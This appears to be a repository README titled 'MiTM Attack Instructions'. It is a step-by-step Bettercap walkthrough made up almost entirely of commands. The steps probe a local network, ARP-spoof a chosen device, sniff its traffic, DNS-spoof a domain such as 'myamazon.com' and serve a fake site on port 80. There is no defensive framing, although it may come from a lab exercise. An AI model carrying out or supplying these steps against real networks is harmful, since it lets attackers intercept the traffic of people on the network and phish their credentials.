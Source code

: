 # MiTM Attack Instructions

## Setting Up Bettercap for a MiTM Attack

### 1. Install Bettercap
Download and install Bettercap from the [official website](https://www.bettercap.org/). Follow the installation instructions for your operating system.

### 2. Launch Bettercap
Run Bettercap with `sudo` to ensure necessary permissions:
```bash
sudo bettercap
```

### 3. Probe the Network
To discover devices on the network, run:
```bash
net.probe on
```

### 4. View Network Devices
To view the IP addresses of devices on the network, use:
```
net.show
```

### 5. Set ARP Spoof Target
Replace 192.168.1.* with the IP address of the device you want to attack:
```
set arp.spoof.targets 192.168.1.*
```

### 6. Enable ARP Spoofing
Activate ARP spoofing to place the attacker machine between the client and server:
```
arp.spoof on
```

### 7. Sniff Network Traffic
Start sniffing the target device’s network traffic:
```
net.sniff on
```

### 8. Stop Sniffing
After you have collected sufficient traffic, you can stop sniffing:
```
net.sniff off
```

### 9. DNS Spoofing Setup
To redirect the target device to the attacker’s fake website, set the domain to spoof:
```
set dns.spoof.domains myamazon.com
```

### 10. Activate DNS Spoofing
Enable DNS spoofing to redirect traffic:
```
dns.spoof on
```

## Running the Fake Server:
1. Open a new terminal window.
2. Navigate to the fake_server directory:
   ```bash
   cd fake_server
   ```
4. Run the fake server on port 80:
   ```
   sudo python3 -m http.server 80
   ```
